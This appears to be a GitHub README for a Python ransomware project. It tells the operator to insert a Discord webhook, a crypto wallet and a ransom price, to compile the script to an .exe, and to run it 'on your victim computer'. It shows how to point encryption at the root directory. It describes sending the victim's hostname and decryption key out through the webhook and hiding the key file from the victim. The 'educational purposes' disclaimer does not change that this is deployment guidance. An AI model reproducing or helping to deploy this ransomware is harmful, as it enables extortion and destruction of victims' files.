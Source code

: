 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```

    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must be run on your victim computer.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file it will create a `.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so not found for the victim. Moreover, since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


